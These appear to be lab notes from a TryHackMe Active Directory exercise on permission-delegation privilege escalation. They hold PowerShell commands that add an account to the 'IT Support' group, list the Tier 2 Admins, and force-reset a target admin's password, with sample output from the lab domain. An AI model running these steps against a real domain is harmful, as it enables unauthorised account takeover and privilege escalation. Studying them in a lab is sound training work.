

# Permission delegation

## Privesc

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Add member

```
PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
PS C:\>Get-ADGroupMember -Identity "IT Support"
distinguishedName : CN=hugh.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
name              : hugh.jones
objectClass       : user
objectGUID        : 460178d3-c818-4e28-9a39-b1ab2b0d3779
SamAccountName    : hugh.jones
SID               : S-1-5-21-3885271727-2693558621-2658995185-1113
```

## Force password change

```
PowerShell
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_lawrence.lewis
objectClass       : user
objectGUID        : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName    : t2_lawrence.lewis
SID               : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_leon.francis
objectClass       : user
objectGUID        : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName    : t2_leon.francis
SID               : S-1-5-21-3885271727-2693558621-2658995185-3660
```

Change password

```
PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```

If nothing changes&#x20;

```
gpupdate /force
```

